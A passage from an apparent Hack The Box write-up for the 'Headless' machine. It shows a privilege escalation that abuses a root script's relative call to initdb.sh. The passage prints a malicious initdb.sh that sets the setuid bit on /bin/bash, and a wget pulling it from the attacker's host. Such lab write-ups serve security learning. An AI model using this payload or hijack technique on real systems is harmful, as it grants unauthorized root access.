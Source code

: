 ```c
dvir@headless:~$ cat /usr/bin/syscheck
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

The script showed that `initdb.sh` was not using an `absolute path` which could be abused by placing a malicious version of it in the path where `sudo /usr/bin/syscheck` will be executed from.

```c
<--- CUT FOR BREVITY --->
if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
<--- CUT FOR BREVITY --->
```

I prepared my `malicious initdb.sh` locally since I was to tired to fuck around with `vi`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Headless/serve]
└─$ cat initdb.sh 
#!/bin/bash
chmod u+s /bin/bash
```

```c
dvir@headless:~$ wget http://10.10.14.141/initdb.sh
--2024-03-23 21:27:36--  http://10.10.14.141/initdb.sh
Connecting to 10.10.14.141:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 32 [text/x-sh]
Saving to: ‘initdb.sh’

initdb.sh           100%[===================>]      32  --.-KB/s    in 0s      

2024-03-23 21:27:36 (3.16 MB/s) - ‘initdb.sh’ saved [32/32]
```
